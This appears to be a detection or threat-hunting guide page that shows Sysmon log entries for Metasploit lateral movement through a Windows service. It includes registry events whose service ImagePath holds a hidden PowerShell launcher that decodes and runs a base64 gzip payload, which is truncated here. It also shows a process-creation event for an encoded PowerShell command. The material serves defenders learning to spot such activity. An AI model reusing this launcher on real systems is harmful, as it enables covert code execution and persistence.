 #### Metasploit lateral movement using a service to initiate callback  
```
Registry value set:
RuleName: MitreRef=T1060,Technique=Registry Autorun Keys,Tactic=Persistence
EventType: SetValue
UtcTime: 2021-06-12 03:49:29.470
ProcessGuid: {298db6a9-2c67-60c4-eeb3-000000000000}
ProcessId: 620
Image: C:\Windows\system32\services.exe
TargetObject: HKLM\System\CurrentControlSet\Services\DpRHdvsE\Start
Details: DWORD (0x00000003)
```

#### Metasploit lateral movement using a service to initiate callback, second event  
```
Registry value set:
RuleName: MitreRef=T1060,Technique=Registry Autorun Keys,Tactic=Persistence
EventType: SetValue
UtcTime: 2021-06-12 03:49:29.470
ProcessGuid: {298db6a9-2c67-60c4-eeb3-000000000000}
ProcessId: 620
Image: C:\Windows\system32\services.exe
TargetObject: HKLM\System\CurrentControlSet\Services\DpRHdvsE\ImagePath
Details: %%COMSPEC%% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(''H4sIAMguxGACA7shortentedforreadability''))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```  

Process create is a useful event to look for.  It is common for an infected to host to create additional processes when performing other tasks such as, credential dumping or lateral movement  

#### Process create event  
```
Process Create:
RuleName: technique_id=T1086,technique_name=PowerShell
UtcTime: 2018-09-01 02:26:12.384
ProcessGuid: {79579f2b-f8c4-5b89-0000-0010a8e24300}
ProcessId: 5568
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 10.0.14393.0 (rs1_release.160715-1616)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
CommandLine: powershell.exe  -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkAT
CurrentDirectory: C:\Windows\system32\
User: computer\user
LogonGuid: {79579f2b-f60c-5b89-0000-0020415e0600}
LogonId: 0x65E41
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=044A0CF1F6BC478A7172BF207EEF1E201A18BA02,MD5=097CE5761C89434367598B34FE32893B,SHA256=BA4038FD20E474C047BE8AAD5BFACDB1BFC1DDBE12F803F473B7918D8D819436,IMPHASH=CAEE994F79D85E47C06E5FA9CDEAE453
ParentProcessGuid: {79579f2b-f737-5b89-0000-0010a2d22200}
ParentProcessId: 2764
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"
```